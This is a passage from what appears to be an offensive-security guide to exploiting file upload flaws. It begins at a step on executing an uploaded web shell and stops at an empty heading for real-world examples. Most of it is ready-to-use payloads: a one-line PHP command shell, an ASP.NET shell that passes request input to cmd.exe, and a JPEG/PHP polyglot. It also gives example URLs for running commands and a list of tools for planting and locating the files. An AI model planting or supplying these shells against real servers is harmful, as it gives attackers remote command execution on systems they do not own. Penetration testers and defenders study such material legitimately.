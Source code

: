 7. **Execute the Web Shell:** Access the uploaded malicious file via a web browser. Pass commands as URL parameters if using a simple shell (e.g., `http://example.com/uploads/shell.php?cmd=ls -la`). This provides Remote Code Execution (RCE).
    

**Payload examples:**

- **Simple PHP Web Shell:**
    
    ```sh
    <?php system($_GET['cmd']); ?>
    ```
    
    - _Usage:_ `http://vulnerable.com/uploads/shell.php?cmd=id` (to get user ID)
        
- **ASP.NET Web Shell:**
    
    ```sh
    <%@ Page Language="C#"%>
    <%
    System.Diagnostics.Process p = new System.Diagnostics.Process();
    p.StartInfo.FileName = "cmd.exe";
    p.StartInfo.Arguments = "/c " + Request["cmd"];
    p.StartInfo.UseShellExecute = false;
    p.StartInfo.RedirectStandardOutput = true;
    p.Start();
    String output = p.StandardOutput.ReadToEnd();
    Response.Write("<pre>" + output + "</pre>");
    %>
    ```
    
    - _Usage:_ `http://vulnerable.com/uploads/shell.aspx?cmd=dir`
        
- **Polyglot Image (JPEG with PHP payload):**
    
    ```sh
    (Binary JPEG data here)
    <?php system($_GET['cmd']); ?>
    ```
    
    - Tools like `exiftool` can be used to inject this into legitimate JPEGs.
        

**Tools used:**

- **Burp Suite (or ZAP):** Absolutely essential for intercepting and modifying HTTP requests (especially `Content-Type` headers and file names).
    
- **`curl`:** For testing direct access to uploaded files and executing commands.
    
- **Text Editor:** To create the web shell files.
    
- **File Renaming Utilities:** For experimenting with double extensions, null bytes, etc.
    
- **`exiftool`:** For injecting payloads into image metadata.
    
- **`ffuf` / `dirb` / `gobuster`:** For directory brute-forcing to locate upload directories or the uploaded malicious file.
    

**Real-world examples (CVE, bugs in libraries or apps):**
